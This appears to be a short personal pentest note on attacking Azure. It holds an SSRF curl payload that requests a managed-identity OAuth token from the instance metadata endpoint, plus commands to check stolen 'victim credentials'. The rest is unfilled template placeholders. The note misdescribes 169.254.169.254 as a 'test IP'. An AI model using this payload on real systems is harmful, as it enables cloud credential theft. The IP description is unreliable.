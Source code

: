 
#### 📦 - Asset discovery


Subdomain Enumeration: Some VMs hosted in Azure cannot be reached by regular subdomain hunters like gobuster or dirbuster, so use an online service like:
https://pentest-tools.com/information-gathering/find-subdomains-of-domain

Check for vulnerable input parameters in the asset, where you could inject payloads like:

```
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

==Remember that 169.254.169.254 is a test IP that works as a localhost in the cloud.==

#### 🚀 - Credentials
---
Make sure your victim credentials or access is working:
`az account list`
`az login`




1. A
2. B
3. C

---
#### 📦 - B
--- 

#### 🖊️ - C


⚠ Alert 1
⚠ Alert 2
⚠ Alert 3


--- 

 1️⃣ A
 2️⃣ B
 
--- 

❗C


### Properties
---
📆 created   {{30-12-2024}} 20:17
🏷️ tags: #cloud #azure 

---
